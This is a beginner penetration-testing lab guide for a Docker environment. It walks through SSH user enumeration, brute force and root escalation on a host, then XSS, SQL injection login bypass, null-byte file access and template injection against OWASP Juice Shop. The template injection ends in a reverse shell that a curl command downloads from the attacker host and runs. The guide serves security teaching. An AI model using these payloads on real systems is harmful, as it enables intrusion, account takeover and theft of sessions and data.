# Introduction

This documentation aims to showcase the capabilities of our DockerSec environment by presenting two scenarios involving sophisticated yet accessible attacks for beginners. All you need is access to a system with Docker installed and the `docker-compose.yml` file. Execute the command `docker compose up -d` and patiently wait for the setup to complete.

To open a terminal in a Docker container, use the command `docker exec -it <container-name> /bin/bash`. To list container names, execute `docker ps` and find them in the leftmost column under the `NAMES` heading.

Always refer to the provided diagram of the environment to gain a comprehensive understanding of the network configurations.

\newpage
# Scenario 1

In this scenario, our objective is to gain access to the system of PC1 despite the presence of firewalls and various network security measures. Assume the role of the attacker, named Eve, and navigate through the network to reach PC1, ultimately obtaining root access.

Diagram of Scenario 1:



## Reconnaissance

### Scanning

Normally an attacker doesn't know the network infrastructure as you might be thanks to the schema of the system. Therefore, the attacker needs to do some network scanning in order to get more knowledge on the different hosts, services and firewall rules.

In this case, Eve is facing the first routeur "DMZ_External", therefore, it needs to find subnets attached to this routeur. To do so, we will use `nmap`, a powerful network scanning tool:

```bash
nmap <IP>/<MASK> -T5
```

Using this command, we will be able to list all the hosts that are on the given network, unless the firewall blocks the icmp-echo-request/replies.

#### Questions

1. How many hosts are up on the subnet 192.168.4.0/24 ?
2. Can you find any other subnets ?
3. Can you find PC1 IP address using nmap ? 

\pagebreak
#### Answers

1. If you run the nmap command on the subnet 192.168.4.0/24, you are supposed to have the following result: 

	
	\newline 
    As you can see, there are 2 hosts up (192.168.4.1 can be ignored, it is a docker bridge interface).
    
2. Using the nmap command you can specify other ip-ranges or masks. Therefore, using the subnet 192.168.1.0/21 for example, you can spot other Hosts. Don't forget, you are only observing the Hosts that **can** respond to pings. Some of them might be blocked be the firewalls, responding but never reaching Eve !
3. In order to find PC1, you need to use the option `-Pn`, this will allow you to omit the non-response of pings and still scan Hosts that might seem down. Using this command on 192.168.1.0/24 , you might have the following result: 

	
	But if you pay attention to the hosts were you detect an open/closed port, you see one IP with an open SSH access ! Therefore PC1 has the ip 192.168.1.2 and an ssh port that seems open.

### Enumeration

The phase of enumeration consists into finding the potential version of services and hosts.
Let's focus on PC1, we know for the moment its IP and an opened port. Usually port 22 is designed for SSH access, let's find out !

To determine the version of service running on this port, we use nmap with a bit more of options:

* `-sV` : this will be used to determine the Service Version
* `-p 22`: We know that only the port 22 doesn't seem filtered by the firewalls, therefore, we can limit ourselves to this one for the moment.

#### Questions

1. What is the version of the service on port 22 of PC1 ?
2. Can you find what OS is PC1 running on ?

\pagebreak
#### Answers

1. Using the `-sV` parameter with nmap, you can find that the version is `OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)`
2. Using the `-O` parameter with nmap, you can determine that the OS is at 93% a `Linux 4.X|5.X|2.6.X|3.X`. Therefore it is useful to know the OS for the next phase, weaponization.

## Weaponization

### CVE-2018-15473

During this phase, we will exploit a vulnerability in the `OpenSSH` version that allows us to make some SSH user enumeration. In other words, this will allow us to find the usernames that can connect to PC1 using ssh protocol. That will allow us to avoid using time consuming dictionaries and bruteforce.

Using the CVE-2018-15473, we will be able to list the ssh users, to do so, we will use metasploit.
At first, let's start the `msfconsole`:

{ width=60% height=60% }

Now, let's start the database of Metasploit, this allows us to store and reuse the data we will collect, this is very useful for scan automation: 

{ width=50% height=50% }

(It is possible that it will show you a bunch of errors, but you can check the status of the database using `msfdb status`)

Once the database initialized, we we will use the following module `auxiliary/scanner/ssh/ssh_enumusers`. You can read all the parameters to set using the `show options` command. Then, we will set the following parameters, using `set <PARAMETER> <value>`, to :

* `DB_ALL_USERS`: `true` --> it will add found users to the msfdb
* `RHOST`: `192.168.1.2` --> IP address of PC1
* `THREADS`: `10` --> for faster scanning
* `USER_FILE`: `/usr/share/seclists/Passwords/UserPassCombo-Jay.txt` --> a wordlist, you can use other like `rockyou.txt`, but results are not assured.

All parameters set, you can start the scan using `run` command. If everything went well, you will end up with a bunch of `[+] 192.168.1.2:22 - SSH - User <usernames> found`. This is a good news for us as we will focus only on those usernames at the moment.

### SSH bruteforce

Now that we found plenty of SSH usernames, we will try to guess their passwords. At first, we will check if some users have the same password as the username (can be common). Otherwise, we will use `rockyou.txt` to guess passwords.

If you use the command `creds`, you can see the content of the msf database concerning the credentials. In our case, it saved the result of the previous scan. Let's export it for later us with the command `creds -o msfdb_creds`: { width=70% height=70% }

You can read the content of the exported file and notice it has the CSV format. For the use of the next module, we need a .txt format that contains a user per line.

#### Questions

1. How can you convert the .csv file into a .txt file containing a username per line ?
2. Using the `search` command, can you find which module we will use next in order to bruteforce the ssh login ?

\pagebreak

#### Answers

1.  Using the `awk` command, you can easily change the `msfdb_creds` file into a proper .txt file :
	```bash
	awk -F',' 'NR>1 {gsub(/"/, "", $4); print $4}' msfdb_creds > usernames.txt
	```
	Now, you should have a `usernames.txt` file containing only the usernames. Here is an explaination of the command parameter:
	*  `-F','` --> this is to specify that the comma is the delimiter
	*  `NR >1` --> this is to skip the first line of the line
	* `{gsub(/"/, "", $4); print $4}` --> In two steps, we first remove the quotes of the forth column and then we print the forth column only
	* `> usernames.txt` --> pipe the output into a file called `usernames.txt`
2.  If you search the following : 
	 
	 
	You will notice a Login Check scanner, in other words, a login bruteforcer for ssh. This is the module we will use.


### SSH Bruteforce second part

Let use the `auxiliary/scanner/ssh/ssh_login` module and read its options. We will set the following as so:

 * `RHOSTS` : `192.168.1.2` --> IP address of PC1
 * `THREADS` : `10` --> to allow faster scanning
 * `USER_FILE`: `usernames.txt` -->  the usernames we found
 * `USER_AS_PASS`: `true` --> to check if usernames are used as passwords

After few minutes, you will normally have at least 3 sessions opened, you can see which accounts are using the same username as a password too `[+] 192.168.1.2:22 - Success: '<username>:<password>'`.

To check if the connections are established, you need to run `sessions -i`:  



From the result of the module `ssh_login`, we can read that the user `msfadmin` seems to be the one in the more groups. Therefore, let's use his session and try to upgrade our shell, get root access and more.

## Delivery

Since we have established connection with PC1, we will deliver a payload using metasploit. Metasploit is a really powerful tool that we can use for almost all the steps of the cyber kill chain. Therefore, since we have an ssh connection to PC1, we will send a payload containing a very versatile shell called  `meterpreter`.

To upgrade our session into a meterpreter session, we will use the following command `sessions -u <sessionNumber>`. Using the outputs of `ssh_login`,  we can see that `msfadmin` session is established on the third session, therefore:



It has opened a forth session, with which we will enter using `sessions -i 4` .

## Exploitation

In the exploitation phase, we will try to get root access in order to have full power on PC1.

Don't hesitate to run `help` command in the meterpreter session in order to see all the possibilites of actions you can do. From controlling the webcam, the microphone or even dumping the passwords, the list of processes and many more, you might be only stopped because you have not root access yet.

Run the following commands:

* `sysinfo`
* `ipconfig`
* `getenv`
* `getuid`
* `getlwd`
* `dir /`

This allows us to gather a lot of information on the system and the user ! Let's use a post exploitation tool used for detecting possible privilege escalation. Put the session in the background using `background` command. Now, let's select the module `use post/multi/recon/local_exploit_suggester` and set the following parameter:

* `SESSION`: `4` --> we specify the session of the meterpreter on PC1

We start the exploit with `run` and wait few minutes. Normally, if everything went well, you are supposed to have the following result:
```shell
#   Name           Potentially Vulnerable?  Check Result
 -   ----          -----------------------  ------------
 1   exploit/linux/local/apport_abrt_chroot_priv_esc                    Yes                      The service is running, but could not be validated. Could not determine Apport version. apport-cli is not installed or not in $PATH.
 2   exploit/linux/local/glibc_ld_audit_dso_load_priv_esc               Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/glibc_origin_expansion_priv_esc                Yes                      The target appears to be vulnerable.
 4   exploit/linux/local/su_login                                       Yes                      The target appears to be vulnerable.
```

Therefore, we can have root session using at least 4 different exploit to privilege escalation ! Although, we notice a very simple one `su_login`, which means that the user `msfadmin` have the right to run `sudo -s` in order grant root access. Let's go back to the session 4 and enter a shell using `shell` command:

Now, let's check the `sudo -s` command of the user: 

Then, we need to upgrade our shell into a TTY using the command `script -qc /bin/bash /dev/null`. If you are familiar with linux, you will now notice that we are running a proper CLI into the system:



Now that you have root access on the machine, us pentesters says that you have pwned the machine, meaning that have compromised PC1.

#### Open Question
1. Since you have root access on the machine, list all the possibilities you could do on PC1.

\newpage

# Scenario 2

In this scenario, our focus will be on exploiting vulnerabilities within the Juice Shop web application. Juice Shop is intentionally designed to be insecure, making it an excellent tool for beginners to delve into web security. Described as "Probably the most modern and sophisticated insecure web application," Juice Shop provides a practical environment for learning about web security challenges.

Contrary to the Scenario 1, our approach here is not to simulate an external attacker Eve. Instead, let's consider that by gaining access through web security penetration testing, we may replicate the actions of Scenario 1 from the HTTP server itself. This approach allows us to explore potential access points that might further facilitate scenarios similar to the one depicted in the first scenario, all while maintaining a level of disguise to avoid easy detection.

\newpage

Diagram of scenario 2:


\newpage

## Initial Access

In order to access the juice-shop website that we are hosting on the docker container, we need to add the route to it using the following command on the Host computer:

```shell
sudo ip route add 192.168.3.0/24 via 192.168.4.10
```

This will allow us to access juice-shop using the following URL: [http://192.168.3.12/#/score-board](http://192.168.3.12/#/score-board)(If you dont have root access, run docker in a virtual machine where you have the root access.)

If everything went well, you are supposed to land on this page



Normally, Juice-shop would want you to scan the website in order to find this score-board, but we find it more useful to the learning process to know it's existence already. On this page, you can follow you progression on all the challenges, some of them are even live explained on the website itself!

If you want to read more about the OWASP juice-shop, we recommend you this very detailed [Companion guide](https://pwning.owasp-juice.shop/companion-guide/latest/).

Navigate a bit on the [main page](http://192.168.3.12) in order to see how it behaves !

## Vulnerabilities
### DOM XSS

XSS stands for Cross-site scripting, it's basically when a user manage to inject code on the webpage. Usually this can result into storing the injected code on the server and running it also for the other users !

For this vulnerability, we talk about DOM-XSS, which is more rare because it is a specific XSS vulnerability. It is important to note that XSS is one of the most common vulnerability online. In this DOM-XSS, we mention DOM, the Document Object Model, which is the file structure of the stored webpages we visit. So the DOM-XSS attack that we will do will be effective only for the web browser we are using, and won't spread to other users for example.

When doing XSS attacks, the pentesters usually run a simple `alert('XSS')`, which will produce a pop up on the browser. This is a proof of concept to show the capability of the pentester to run any code on the server ! So this kind of vulnerability need to be taken seriously.

#### Questions 

1. What other name is given to DOM-XSS ?
2. In your opinion, which element of the webpage Juice-shop could we use for such attack ?
3. Find other script command then `alert()` in Javascript.

\newpage

#### Answers

1. The other name given to DOM-XSS is type-0 XSS !
2. We should use the research bar of the website, but instead of products, we try to insert a `<script>`.
3. One important one is `document.cookie()`, which prints the cookie of the user running the command. It can be very useful for attackers in order to steal a user's session.

Let's start as we mentioned in the answers at the search bar of the website. We can try running simple queries like so:

{ width=40% height=40% } { width=60% height=60% }

But as you can see, we don't have any pop up, which means the server might be filtering our banners of scripts. Another common XSS : `<iframe src="javascript:alert('xss')">`. Using `iframe` and changing the source to be javascript. Therefore, we technically run scripts !

{ width=50% height=50% }

You just made an XSS injection ! Let's combine `alert()` with `document.cookie` in order to "steal" our cookie: 

{ width=55% height=55% }

You don't have a cookie `token` ? That's maybe because you are not logged in, let's do the next exercise about SQL Injection to solve this issue.

### SQL Injection

As you may have noticed from exploring the website, you can login to an account or create an account. Usually, this means that we have a backend containing a database which is requested at each connection. If you look at the market share, you might notice that SQL databases are the most commons. 

So when you test passwords and users combinations, you are very probably requesting an SQL database. Therefore it is important to sanitize the user inputs, because what could happen if you put SQL commands into the user or password fields ? The answer is simple, an SQL injection, meaning that you are extraction data from the database, inserting or manipulation tables as you feel so.

One of the most common SQL injection is 
```SQL
' or 1=1--
```

This simple characters can allow you to connect as any users. Let's visit the page [http://192.168.3.12/#/about](http://192.168.3.12/#/about) , after reading few of the customer feedback, we notice a pattern on some emails, they finish on `<username>@juice-sh.op`. Maybe the `admin` account is using an email like this ? Let's try an SQL injection on `admin@juice-sh.op` :



{ width=70% height=70% }

As simple as that, we can have access to an admin account. The worst is that you don't even need to specify the URL to get access to this account, you can simply put `' or 1=1--` and a random password.

### Poison Null Byte

As mentioned in the Initial Access, juice-shop assumed that you scanned the website and found all the related webpages. Unless you did that, you should know that the web application is also hosting an old FTP server: [http://192.168.3.12/ftp](http://192.168.3.12/ftp).

{ width=75% height=75% }

While navigating through the files and folder, you might notice that you can't download all files:



Usually, when we want to escape the filtering, we will use a Null Byte `%00` and add a proper extension like so [http://192.168.3.12/ftp/coupons_2013.md.bak%00.md](http://192.168.3.12/ftp/coupons_2013.md.bak%00.md). But here, instead of a 403, we get a 400, so it means we need to choose the second option when it comes to Null Byte `%2500`. We need to do `%25` in order encode the `%` and so it will be URL encoded and wont crash !



It worked ! We got the `.bak` file download, but we can do that on all the other files. Here, using the coupons file, we have the following content:



Maybe some of the coupons still work ?

### Optional: RCE into Reverse shell

Once again, Juice-shop assumed that you did a lot of reconnaissance on the website in order to detect and list all the anomalies. But for the simplicity of this training, we will focus on the next steps of the cyber kill chain and get the reconnaissance as already done. 

Doing some recon on the website, you should have noticed that [http://192.168.3.12/profile](http://192.168.3.12/profile) (while connected to an account), is not an Angular JS page. This page uses Pug, a Template engine, which is perfect for some SSTi (Server Side Template Injection).

Let's play with the username field:



You see your username in `\test` format, but doing some SSTi, you can change its format. Try with `#{test}` instead of `test`, the `\` should disappear ! You have just injected some Template into the page. 

Like for XSS, we can potentially run some code on the server itself, this is called RCE for Remote Code Execution. This is done for example by the lack of encapsulation of JavaScript, resulting into the capacity of loading libraries that can allow you to spawn a process that will run your commands.

Let's start two terminal in Eve docker container. In one of them, we run a python http server, and in the second one, we run a netcat command. This classic setup is useful for sending a payload to a remote server that we host locally using the python http server, using netcat to discuss with the sent payload.

* Python http server command: `python3 -m http.server 80`
* netcat command: `nc -lnvp 4444`

Now, we will open a third terminal in Eve docker container and we will craft a payload called a Reverse Shell. Because we have firewalls that usually allow output traffic and filter input traffic, we try to put a shell that will initiate the connection **from** the victim **to** the attacker in order to bypass the firewall rules. In our case, we will craft the Reverse shell using `msfvenom` like so:
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.4.3 LPORT=4444 -f elf -o shell
```

\newpage

Here is a quick explanation of each parameters:

* `-p linux/x86/shell_reverse_tcp` --> specify the payload we want, in this case a Reverse shell using TCP and running on linux OS (we know the os from scenario 1!)
*  `LHOST=192.168.4.3` --> this is the IP that the reverse shell will connect
* `LPORT=4444` --> this is the port the reverse shell will use to connect ( that is why the netcat command is listening to port 4444)
* `-f elf` --> that is the format of the payload, elf format being the executable format on linux
* `-o shell` --> simply specify the name of the payload we want

Once the payload is created in the directory `/root`, we can set the following username :
```javascript
#{global.process.mainModule.require('child_process').exec('curl 
http://192.168.4.3/shell -o shell && chmod +x shell && ./shell')}
```
After setting the username, check the two terminals containing the python http server and the other containing the netcat command. You should see confirmation of the download shell from python http server and also, a confirmation on the netcat command that you are connected: `connect to [192.168.4.3] from (UNKNOWN) [192.168.4.10] 52746`. It means you can run commands on the server from the netcat terminal !

Try running `ls` or `pwd` or even `whoami` commands.

If you want to upgrade your netcat terminal to a tty, run the following :


 You now have a reverse shell into the HTTP server with root access ! Which means you pwned Juice-shop and can use it to do the scenario 1 again, but directly from inside the DMZ. Usually, with more strict firewalls, you might be able to do specific scans only from the inside of the DMZ for example !